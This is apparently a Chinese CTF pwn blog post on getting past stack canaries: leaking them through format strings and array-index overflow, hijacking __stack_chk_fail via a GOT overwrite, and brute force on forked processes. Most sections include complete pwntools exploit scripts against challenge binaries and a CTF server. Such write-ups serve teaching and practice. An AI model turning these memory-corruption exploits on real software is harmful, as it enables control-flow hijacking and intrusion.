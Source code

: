 ```yaml
---
title: 「PWN」canary的绕过和泄露思路
tags: ['CTF', 'Pwn', ]
authors: [nova]


---
```


准备研究一下不同保护机制下的绕过，然后就准备进heap了

今天先来看一下Canary

<!--truncate-->

# Leak Canary

绕过Canary的主要一种方式就是泄露Canary的值，通常需要根据格式化字符串或者题目的一些输出来进行。

## bin

这是一题最基础的格式化字符串泄露Canary的题目

![pseudocode](https://cdn.novanoir.moe/img/image-20220116194731361.png)

![checksec](https://cdn.novanoir.moe/img/image-20220116195013327.png)

同时，有直接cat flag的后门函数，所以我们只需要泄露出canary的值，并溢出到后门函数就好。

通过GDB看到canary在字符串的第七个参数位置，直接任意地址读canary就好

exp:

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'i386'
context.os = 'linux'

sh = process('./bin')

payload = b'%7$x'
# gdb.attach(sh, 'b printf')
sh.sendline(payload)
canary = int(sh.recv(), 16)
print(canary) 
getflag_addr = 0x0804863B
payload = b'A'*100 + p32(canary) + b'A'*12 + p32(getflag_addr)
sh.sendline(payload)
sh.interactive()

```

## pwn1

这是用到了数组下标溢出的知识，但本质也是一样的。

通过数组下标溢出修改它的上限判定，再泄露canary

（按理来说应该可以直接修改数组下标到返回地址，直接修改返回地址，但是还没搞出来，同样的脚本写着写着就segment fault了，再改回去也不行了，程序员的疑问+1）

给出两个exp

exp1:

```python
from pwn import *
context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

# sh = process("./calc")
sh = remote('pwn.nos4fe.site', 10000)

sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'-2')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'1000')

for i in range(23):
    sh.recvuntil(b'Your choice:')
    sh.sendline(b'1')
    sh.recvuntil(b'Please input the pos:')
    sh.sendline(b'%d' % i)
    sh.recvuntil(b'Please input the number:')
    sh.sendline(b'0')

#gdb.attach(sh, 'b puts')


sh.recvuntil(b'Your choice:')
sh.sendline(b'2')
sh.recvuntil(b'How many?')
sh.sendline(b'24')
sh.recvuntil(b"result:")
canary = int(sh.recvline())
calc_root_addr = int(0x4012BD)
sh.recvuntil(b'Your choice:')
sh.sendline(b'3')
sh.recvuntil(b"What's your name?")
payload = b'A'*(0x20-0x08) + p64(canary) + b'A'*0x08 + p64(calc_root_addr)
sh.sendline(payload)
sh.interactive()

```

exp2:

```python
from pwn import *
context.log_level='DEBUG'
context.arch='amd64'
context.os='linux'

#sh = process("./calc")
sh = remote('pwn.nos4fe.site', 10000)

sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'-2')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'1000')


sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'25')
#gdb.attach(sh, 'b puts')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'4199101')

sh.recvuntil(b'Your choice:')
sh.sendline(b'3')
sh.sendline(b'')
sh.interactive()
```



# Hijack stack_chk_fail

修改`stack_chk_fail`函数的got表地址，让它执行时直接跳转到后门函数

这样再栈溢出就可以了

主要还是靠一手格式化字符串任意地址写(让人怀疑主题（)

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process('./bin3')
elf = ELF('./bin3')

stack_chk_fail_got = elf.got['__stack_chk_fail']
backdoor_addr = 0x040084E

payload = fmtstr_payload(6, {stack_chk_fail_got: backdoor_addr})
print(payload)
sh.sendline(payload + b'A'*0x100)
sh.interactive()

```

> 顺带提一嘴，其实我对fmtstr的大数字覆盖还是挺搞不懂的，不过pwntools居然自带了fmtstr_payload来给你算，挺好的



# Brute-Force

Fork进程会让canary不变，可以爆破

~~还没有找到题目~~

